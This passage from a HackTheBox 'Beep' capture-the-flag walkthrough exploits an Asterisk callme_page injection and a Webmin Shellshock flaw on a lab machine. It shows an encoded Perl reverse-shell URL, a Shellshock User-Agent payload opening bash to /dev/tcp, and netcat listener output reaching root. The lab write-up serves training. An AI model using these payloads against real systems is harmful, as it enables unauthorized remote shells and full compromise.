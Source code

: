 In the exploit the extension="233", I was drop some `sys.argv` and query the url with firefox.

[IppSec HackTheBox Beep](https://www.youtube.com/watch?v=XJmBpOd__N8)

```
┌──(Hades㉿10.10.14.5)-[1.5:21.3]~/walkthrough/hackthebox/beep
└─$ python3 18650.py 233 10.10.10.7 10.10.14.5 443
https://10.10.10.7/recordings/misc/callme_page.php?action=c&callmenum=233@from-internal/n%0D%0AApplication:%20system%0D%0AData:%20perl%20-MIO%20-e%20%27%24p%3dfork%3bexit%2cif%28%24p%29%3b%24c%3dnew%20IO%3a%3aSocket%3a%3aINET%28PeerAddr%2c%2210.10.14.5%3a443%22%29%3bSTDIN-%3efdopen%28%24c%2cr%29%3b%24%7e-%3efdopen%28%24c%2cw%29%3bsystem%24%5f%20while%3c%3e%3b%27%0D%0A%0D%0A
```

Listener in Kali machine

```
┌──(Hades㉿10.10.14.5)-[2.2:50.6]~
└─$ sudo nc -nvlp 443
listening on [any] 443 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.7] 47806
id
uid=100(asterisk) gid=101(asterisk)
python -c "import pty;pty.spawn('/bin/bash')"
bash-3.2$ 
```

### Webmin Shellshock

Webmin using `session_login.cgi`, it can be exploit using shellshock payload.

Payload:

`User-Agent: () { :; }; echo; /bin/bash -c 'bash -i >& /dev/tcp/10.10.14.5/443 0>&1'`

![](images/8.png)

Listener in Kali machine

```
┌──(Hades㉿10.10.14.5)-[2.1:30.8]~
└─$ sudo nc -nvlp 443
listening on [any] 443 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.7] 40293
bash: no job control in this shell
[root@beep webmin]# id
uid=0(root) gid=0(root)
[root@beep webmin]#
```
